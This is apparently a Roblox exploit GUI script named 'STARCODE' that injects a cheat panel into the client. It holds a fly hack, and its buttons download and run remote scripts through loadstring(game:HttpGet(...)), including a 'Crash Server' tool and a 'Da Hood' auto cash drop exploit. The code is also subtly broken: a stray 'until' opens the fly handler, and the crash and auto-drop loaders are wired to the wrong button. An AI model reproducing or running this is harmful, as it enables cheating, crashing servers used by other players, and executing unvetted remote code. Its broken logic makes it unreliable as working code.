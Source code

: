 -- Gui to Lua
-- Version: 3.2

-- Instances:

local ScreenGui = Instance.new("ScreenGui")
local STARCODE = Instance.new("Frame")
local Label = Instance.new("TextLabel")
local Label_2 = Instance.new("TextLabel")
local Made = Instance.new("TextLabel")
local Label_3 = Instance.new("TextLabel")
local Label_4 = Instance.new("TextLabel")
local FLY = Instance.new("TextButton")
local ADMINFLY = Instance.new("TextButton")
local Crash = Instance.new("TextButton")
local Label_5 = Instance.new("TextLabel")
local Label_6 = Instance.new("TextLabel")
local AutoDrop = Instance.new("TextButton")
local TextLabel = Instance.new("TextLabel")

--Properties:

ScreenGui.Parent = game.CoreGui
ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

STARCODE.Name = "STARCODE"
STARCODE.Parent = ScreenGui
STARCODE.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
STARCODE.BorderColor3 = Color3.fromRGB(53, 53, 53)
STARCODE.BorderSizePixel = 0
STARCODE.Position = UDim2.new(0.265433192, 0, 0.2370518, 0)
STARCODE.Size = UDim2.new(0, 769, 0, 333)
STARCODE.Active = true
STARCODE.Draggable = true

Label.Name = "Label"
Label.Parent = STARCODE
Label.BackgroundColor3 = Color3.fromRGB(255, 206, 206)
Label.BackgroundTransparency = 1.000
Label.BorderSizePixel = 0
Label.Position = UDim2.new(0.018205462, 0, 0.0630630627, 0)
Label.Size = UDim2.new(0, 175, 0, 50)
Label.Font = Enum.Font.SourceSans
Label.Text = "STARCODE"
Label.TextColor3 = Color3.fromRGB(255, 230, 84)
Label.TextScaled = true
Label.TextSize = 14.000
Label.TextWrapped = true

Label_2.Name = "Label"
Label_2.Parent = STARCODE
Label_2.BackgroundColor3 = Color3.fromRGB(0, 4, 255)
Label_2.Position = UDim2.new(0.018205462, 0, 0.195195198, 0)
Label_2.Size = UDim2.new(0, 187, 0, 6)
Label_2.Font = Enum.Font.SourceSans
Label_2.Text = ""
Label_2.TextColor3 = Color3.fromRGB(0, 0, 0)
Label_2.TextSize = 14.000

Made.Name = "Made"
Made.Parent = STARCODE
Made.BackgroundColor3 = Color3.fromRGB(0, 255, 21)
Made.BackgroundTransparency = 1.000
Made.BorderSizePixel = 0
Made.Position = UDim2.new(0.80624187, 0, 0.828828871, 0)
Made.Size = UDim2.new(0, 149, 0, 49)
Made.Font = Enum.Font.SourceSansSemibold
Made.Text = "Made by Deadlygio#7805"
Made.TextColor3 = Color3.fromRGB(255, 255, 255)
Made.TextScaled = true
Made.TextSize = 14.000
Made.TextStrokeColor3 = Color3.fromRGB(115, 255, 1)
Made.TextStrokeTransparency = -1.000
Made.TextWrapped = true

Label_3.Name = "Label"
Label_3.Parent = STARCODE
Label_3.BackgroundColor3 = Color3.fromRGB(4, 3, 2)
Label_3.BorderSizePixel = 0
Label_3.Position = UDim2.new(0.00910273101, 0, 0.270270288, 0)
Label_3.Size = UDim2.new(0, 200, 0, 43)
Label_3.Font = Enum.Font.Cartoon
Label_3.Text = "BODY"
Label_3.TextColor3 = Color3.fromRGB(255, 0, 0)
Label_3.TextScaled = true
Label_3.TextSize = 14.000
Label_3.TextStrokeColor3 = Color3.fromRGB(12, 32, 214)
Label_3.TextStrokeTransparency = 0.000
Label_3.TextWrapped = true

Label_4.Name = "Label"
Label_4.Parent = STARCODE
Label_4.BackgroundColor3 = Color3.fromRGB(255, 64, 0)
Label_4.BorderColor3 = Color3.fromRGB(97, 6, 92)
Label_4.BorderSizePixel = 0
Label_4.Position = UDim2.new(0.00910273101, 0, 0.3993994, 0)
Label_4.Size = UDim2.new(0, 200, 0, 8)
Label_4.Font = Enum.Font.SourceSans
Label_4.Text = ""
Label_4.TextColor3 = Color3.fromRGB(0, 0, 0)
Label_4.TextSize = 14.000

FLY.Name = "FLY"
FLY.Parent = STARCODE
FLY.BackgroundColor3 = Color3.fromRGB(7, 214, 255)
FLY.Position = UDim2.new(0.0174893495, 0, 0.505706906, 0)
FLY.Size = UDim2.new(0, 200, 0, 59)
FLY.Font = Enum.Font.Cartoon
FLY.Text = "FLY(F)"
FLY.TextColor3 = Color3.fromRGB(0, 0, 0)
FLY.TextScaled = true
FLY.TextSize = 14.000
FLY.TextWrapped = true
FLY.MouseButton1Down:connect(function()
	until game.Players.LocalPlayer and game.Players.LocalPlayer.Character and game.Players.LocalPlayer.Character:findFirstChild("Head") and game.Players.LocalPlayer.Character:findFirstChild("Humanoid") 
local mouse = game.Players.LocalPlayer:GetMouse() 
repeat wait() until mouse
local plr = game.Players.LocalPlayer 
local torso = plr.Character.Head 
local flying = false
local deb = true 
local ctrl = {f = 0, b = 0, l = 0, r = 0} 
local lastctrl = {f = 0, b = 0, l = 0, r = 0} 
local maxspeed = 400 
local speed = 5000 

function Fly() 
	local bg = Instance.new("BodyGyro", torso) 
	bg.P = 9e4 
	bg.maxTorque = Vector3.new(9e9, 9e9, 9e9) 
	bg.cframe = torso.CFrame 
	local bv = Instance.new("BodyVelocity", torso) 
	bv.velocity = Vector3.new(0,0.1,0) 
	bv.maxForce = Vector3.new(9e9, 9e9, 9e9) 
	repeat wait() 
		plr.Character.Humanoid.PlatformStand = true 
		if ctrl.l + ctrl.r ~= 0 or ctrl.f + ctrl.b ~= 0 then 
			speed = speed+.10+(speed/maxspeed) 
			if speed > maxspeed then 
				speed = maxspeed 
			end 
		elseif not (ctrl.l + ctrl.r ~= 0 or ctrl.f + ctrl.b ~= 0) and speed ~= 0 then 
			speed = speed-1 
			if speed < 0 then 
				speed = 0 
			end 
		end 
		if (ctrl.l + ctrl.r) ~= 0 or (ctrl.f + ctrl.b) ~= 0 then 
			bv.velocity = ((game.Workspace.CurrentCamera.CoordinateFrame.lookVector * (ctrl.f+ctrl.b)) + ((game.Workspace.CurrentCamera.CoordinateFrame * CFrame.new(ctrl.l+ctrl.r,(ctrl.f+ctrl.b)*.2,0).p) - game.Workspace.CurrentCamera.CoordinateFrame.p))*speed 
			lastctrl = {f = ctrl.f, b = ctrl.b, l = ctrl.l, r = ctrl.r} 
		elseif (ctrl.l + ctrl.r) == 0 and (ctrl.f + ctrl.b) == 0 and speed ~= 0 then 
			bv.velocity = ((game.Workspace.CurrentCamera.CoordinateFrame.lookVector * (lastctrl.f+lastctrl.b)) + ((game.Workspace.CurrentCamera.CoordinateFrame * CFrame.new(lastctrl.l+lastctrl.r,(lastctrl.f+lastctrl.b)*.2,0).p) - game.Workspace.CurrentCamera.CoordinateFrame.p))*speed 
		else 
			bv.velocity = Vector3.new(0,0.1,0) 
		end 
		bg.cframe = game.Workspace.CurrentCamera.CoordinateFrame * CFrame.Angles(-math.rad((ctrl.f+ctrl.b)*50*speed/maxspeed),0,0) 
	until not flying 
	ctrl = {f = 0, b = 0, l = 0, r = 0} 
	lastctrl = {f = 0, b = 0, l = 0, r = 0} 
	speed = 0 
	bg:Destroy() 
	bv:Destroy() 
	plr.Character.Humanoid.PlatformStand = false 
end 
mouse.KeyDown:connect(function(key) 
	if key:lower() == "f" then 
		if flying then flying = false 
		else 
			flying = true 
			Fly() 
		end 
	elseif key:lower() == "w" then 
		ctrl.f = 1 
	elseif key:lower() == "s" then 
		ctrl.b = -1 
	elseif key:lower() == "a" then 
		ctrl.l = -1 
	elseif key:lower() == "d" then 
		ctrl.r = 1 
	end 
end) 
mouse.KeyUp:connect(function(key) 
	if key:lower() == "w" then 
		ctrl.f = 0 
	elseif key:lower() == "s" then 
		ctrl.b = 0 
	elseif key:lower() == "a" then 
		ctrl.l = 0 
	elseif key:lower() == "d" then 
		ctrl.r = 0 
	end 
end)
Fly()
end)

ADMINFLY.Name = "ADMIN FLY"
ADMINFLY.Parent = STARCODE
ADMINFLY.BackgroundColor3 = Color3.fromRGB(7, 214, 255)
ADMINFLY.Position = UDim2.new(0.0174893495, 0, 0.751953125, 0)
ADMINFLY.Size = UDim2.new(0, 200, 0, 59)
ADMINFLY.Font = Enum.Font.Cartoon
ADMINFLY.Text = "ADMIN FLY(X)"
ADMINFLY.TextColor3 = Color3.fromRGB(0, 0, 0)
ADMINFLY.TextScaled = true
ADMINFLY.TextSize = 14.000
ADMINFLY.TextWrapped = true
ADMINFLY.MouseButton1Down:connect(function()
	loadstring(game:HttpGet("https://raw.githubusercontent.com/22kristina/swag/main/admin_fly"))()
end)

Crash.Name = "Crash"
Crash.Parent = STARCODE
Crash.BackgroundColor3 = Color3.fromRGB(255, 0, 38)
Crash.Position = UDim2.new(0.29908973, 0, 0.505706906, 0)
Crash.Size = UDim2.new(0, 200, 0, 64)
Crash.Font = Enum.Font.Cartoon
Crash.Text = "Crash Server 100k needed(SwagMode)"
Crash.TextColor3 = Color3.fromRGB(255, 255, 255)
Crash.TextScaled = true
Crash.TextSize = 14.000
Crash.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
Crash.TextWrapped = true
ADMINFLY.MouseButton1Down:connect(function()
	loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))()
end)

Label_5.Name = "Label"
Label_5.Parent = STARCODE
Label_5.BackgroundColor3 = Color3.fromRGB(21, 0, 255)
Label_5.BackgroundTransparency = 1.000
Label_5.Position = UDim2.new(0.29908973, 0, 0.291291296, 0)
Label_5.Size = UDim2.new(0, 200, 0, 50)
Label_5.Font = Enum.Font.SourceSans
Label_5.Text = "SELLING TOOLS"
Label_5.TextColor3 = Color3.fromRGB(0, 255, 238)
Label_5.TextScaled = true
Label_5.TextSize = 14.000
Label_5.TextWrapped = true

Label_6.Name = "Label"
Label_6.Parent = STARCODE
Label_6.BackgroundColor3 = Color3.fromRGB(0, 12, 255)
Label_6.BorderColor3 = Color3.fromRGB(97, 6, 92)
Label_6.BorderSizePixel = 0
Label_6.Position = UDim2.new(0.29908973, 0, 0.3993994, 0)
Label_6.Size = UDim2.new(0, 200, 0, 8)
Label_6.Font = Enum.Font.SourceSans
Label_6.Text = ""
Label_6.TextColor3 = Color3.fromRGB(0, 0, 0)
Label_6.TextSize = 14.000

AutoDrop.Name = "AutoDrop"
AutoDrop.Parent = STARCODE
AutoDrop.BackgroundColor3 = Color3.fromRGB(255, 0, 38)
AutoDrop.Position = UDim2.new(0.29908973, 0, 0.736938119, 0)
AutoDrop.Size = UDim2.new(0, 200, 0, 64)
AutoDrop.Font = Enum.Font.Cartoon
AutoDrop.Text = "Auto Drop(SwagMode)"
AutoDrop.TextColor3 = Color3.fromRGB(255, 255, 255)
AutoDrop.TextScaled = true
AutoDrop.TextSize = 14.000
AutoDrop.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
AutoDrop.TextWrapped = true
ADMINFLY.MouseButton1Down:connect(function()
	loadstring(game:HttpGet(("https://raw.githubusercontent.com/Raycodex/Exploiting/main/Roblox/Da%20Hood%20Auto%20Cash%20Drop"), true))()
end)


TextLabel.Parent = STARCODE
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 0, 0)
TextLabel.BorderSizePixel = 0
TextLabel.Position = UDim2.new(0.568270564, 0, 0.135135129, 0)
TextLabel.Size = UDim2.new(0, 332, 0, 167)
TextLabel.Font = Enum.Font.Cartoon
TextLabel.Text = "MORE SOON LOL"
TextLabel.TextColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.TextScaled = true
TextLabel.TextSize = 14.000
TextLabel.TextWrapped = true

-- Scripts:

local function YDRKOR_fake_script() -- Label_2.LocalScript 
	local script = Instance.new('LocalScript', Label_2)

	
		function zigzag(X) return math.acos(math.cos(X*math.pi))/math.pi end
	
		counter = 0
	
		while wait(0.01) do
			script.Parent.BackgroundColor3 = Color3.fromHSV(zigzag(counter),1,1)
	
			counter = counter + 0.01
		end
end
coroutine.wrap(YDRKOR_fake_script)()
